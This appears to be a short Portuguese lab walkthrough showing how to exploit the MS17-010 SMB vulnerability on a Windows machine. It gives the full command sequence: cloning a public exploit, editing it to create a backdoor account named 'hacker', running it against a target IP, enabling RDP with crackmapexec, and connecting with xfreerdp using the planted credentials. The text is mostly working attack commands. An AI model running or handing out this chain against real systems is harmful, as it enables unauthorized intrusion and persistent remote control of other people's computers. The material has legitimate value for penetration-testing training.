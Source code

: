 Realize o download do exploit
```
git clone https://github.com/worawit/MS17-010
```
```
cd MS17-010/
```

Edite a classe **smb_pwn** incluindo os comandos desejados. Neste exemplo, estamos adicionando o usuário **hacker**
```
mousepad zzz_exploit.py
```
![image](https://user-images.githubusercontent.com/76706456/198835498-e0f22a6c-4c2a-4a64-82e6-ea810090c726.png)

Execute o exploit informando o Windows alvo
```
python2 zzz_exploit.py 192.168.10.142
```

Foi habilitado o RDP:
```
crackmapexec smb 192.168.10.142 -u hacker -p '12345678' -M rdp -o ACTION=enable
```
![image](https://user-images.githubusercontent.com/76706456/198835678-073a98f8-c797-4cbd-a7b5-a595b17303bc.png)
```
xfreerdp /u:hacker /p:'12345678' /v:192.168.10.142
```
![image](https://user-images.githubusercontent.com/76706456/198835703-8b68cbac-c837-4dc9-a579-47a432ce1a64.png)
